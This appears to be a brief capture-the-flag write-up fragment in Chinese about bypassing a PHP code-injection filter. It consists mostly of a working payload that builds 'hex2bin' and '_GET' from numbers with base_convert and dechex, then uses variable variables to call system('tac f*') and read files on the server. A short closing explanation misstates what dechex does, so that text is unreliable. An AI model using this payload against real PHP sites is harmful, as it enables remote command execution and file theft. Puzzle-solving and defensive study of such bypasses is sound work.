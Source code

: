 	base_convert('37907361743',10,36)(dechex('1598506324'));    _GET

	c=$pi=_GET;$$pi{abs}($$pi{acos})&abs=system&acos=tac f*

payload

	payload:c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=tac f*

总结：hex2bin把16进制转字符，dechex把16进制转没有字符的十进制，这样便是全数字了。




